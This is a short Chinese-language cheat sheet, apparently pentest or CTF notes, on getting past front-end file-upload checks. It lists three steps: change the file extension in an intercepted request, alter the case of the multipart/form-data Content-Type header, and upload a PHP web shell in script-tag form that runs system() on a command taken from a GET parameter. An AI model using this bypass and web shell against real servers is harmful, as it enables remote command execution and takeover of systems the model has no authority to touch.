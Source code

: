 ## 前端
1. 抓包改后缀名
2.  Content-Type multipart/form-data更改大小写为Multipart/form-data
3. 更改代码
```php
<script language="php">
@system($_GET['c']);
</script>
```